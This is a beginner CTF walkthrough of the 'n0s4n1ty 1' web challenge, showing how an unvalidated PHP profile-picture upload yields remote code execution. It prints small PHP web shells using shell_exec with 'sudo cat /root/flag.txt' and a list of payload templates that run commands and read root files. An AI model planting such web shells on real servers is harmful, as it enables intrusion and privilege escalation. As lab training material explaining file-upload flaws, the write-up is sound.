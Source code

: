  🔐 n0s4n1ty 1 — Beginner-Friendly File Upload Exploitation

Challenge: n0s4n1ty 1
Category: Web Exploitation
Goal: Exploit a vulnerable profile picture upload to get RCE (Remote Code Execution) and retrieve the flag from `/root/flag.txt`

---

 🧪 Overview

This was a classic case of insecure file upload — a goldmine for beginners learning web security. If you're just getting into CTFs and see a file upload form, get excited. This is often the key to breaking in.

Let me walk you through how I approached and solved this challenge. I'll keep it beginner-friendly, explaining each step, what I was thinking, and what tools I used.

---

 🛠️ Step 1: Testing the Upload Feature

Once the challenge instance was live, I was directed to a webpage with a basic form to upload a profile picture.

I uploaded a normal image (`dog.jpg`) and clicked Upload Profile. The page redirected to something like:

```
/upload.php
```

With the message:

```
The file dog.jpg has been uploaded
Path: uploads/dog.jpg
```

So now I knew:

 It's a PHP app.
 Files are stored in `/uploads/`.
 Files are accessible via direct URL like `http://<site>/uploads/filename`.

I visited the image URL and yes, the image showed up perfectly.

> Tip: Always verify if uploaded files are accessible. This is the first step to checking for file upload vulnerabilities.

---

 🧐 Step 2: What Happens if I Upload Code?

The next thought was obvious: Can I upload something other than an image? Like... a PHP file?

I created a basic PHP file called `info.php` with the following code:

```php
<?php
phpinfo();
?>
```

Why `phpinfo()`? Because it's harmless, easy to recognize if it works, and gives us tons of info about the server.

I uploaded `info.php`, and... boom. It accepted it. No error.

Visiting `/uploads/info.php` opened the PHP Info page.

That means:

 No validation of file types.
 Server executes uploaded `.php` files.

> CTF Tip: If you can upload and execute `.php` files, you've likely got RCE.

---

 ⚡ Step 3: Weaponizing the Upload

Now it was time to go after the real target — the flag inside `/root/flag.txt`.

I tried listing the `/root` directory with:

```php
<?php
print_r(scandir("/root"));
?>
```

This gave me a permission denied warning.

So instead, I moved to command execution with:

```php
<?php
echo shell_exec("ls /root");
?>
```

Still nothing. Hmm.

Then I tried:

```php
<?php
echo shell_exec("sudo ls /root");
?>
```

And YES — it printed:

```
flag.txt
```

Now for the final move:

```php
<?php
echo shell_exec("sudo cat /root/flag.txt");
?>
```

And... 🎉 Hello flag!

---

 🧵 Things You Can Try in Similar Challenges

If you find a file upload feature, try this path:

1. Upload a harmless image to understand how the system responds.
2. Try uploading a PHP file with `phpinfo()` or `echo "Hello";` to check code execution.
3. Write PHP files with `shell_exec`, `system`, or `exec` to run commands.
4. List directories like `/`, `/home`, or `/root`.
5. Look for flags in typical locations: `/flag`, `/root/flag.txt`, `/home/user/flag.txt`, etc.

Also, here are some helpful payload templates:

```php
<?php echo shell_exec("ls /"); ?>
<?php echo system("whoami"); ?>
<?php echo file_get_contents("/root/flag.txt"); ?>
```

---

 📅 Summary

This challenge was beginner-friendly but powerful in what it teaches:

 The importance of server-side file validation.
 Why executing user uploads is a dangerous idea.
 How simple PHP functions like `shell_exec` can lead to total compromise.

 🏰 Final Flag:

(Flag content omitted for spoiler reasons.)
![Screenshot 2025-07-03 220826](https://github.com/user-attachments/assets/144d3092-a286-445d-8547-0a8e6a8563b1)


---

 🎉 Final Thoughts

If you’re new to CTFs and find one with a file upload, don’t ignore it. That’s your entry point. Keep experimenting, Google a lot (seriously), and build your payloads step-by-step.

Happy hacking! Follow me for more CTF walkthroughs and practical web security breakdowns.

---



Stay curious. Stay sharp. ✨
